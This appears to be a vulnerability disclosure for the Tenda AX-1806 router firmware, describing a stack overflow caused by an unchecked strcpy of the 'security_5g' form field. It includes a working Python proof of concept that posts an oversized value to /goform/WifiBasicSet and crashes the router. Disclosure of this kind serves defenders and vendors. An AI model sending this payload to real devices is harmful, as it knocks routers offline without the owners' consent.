


# Tenda Vulnerability

Vendor:Tenda

Product:AX-1806

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen


## Vulnerability cause

In the function sub_4CA50, the security_5g value is obtained from user-controlled input via v18 = (const char *)sub_295C8(a1, v17, "none"), where v17 resolves to either "security" or "security_5g" depending on the request context, and is then copied into the local buffer v31 using strcpy(v31, v18). The buffer v31 is a fixed-size stack buffer of 256 bytes (char v31[256]), while strcpy does not perform any bounds checking on the source string. Since the security parameter is fully controlled by the user and no maximum length is enforced, an attacker can supply an excessively long value, causing strcpy to write past the end of v31. This stack-based buffer overflow can corrupt adjacent stack memory, overwrite local variables or control data, and ultimately lead to a process crash, resulting in a Denial of Service condition.

<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/WifiBasicSet"

security_5g = "A"*7000
data = {
"security_5g": security_5g,
"doubleBand": "1"
}

r = requests.post(url, data=data)
print(r.status_code, r.text)

```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>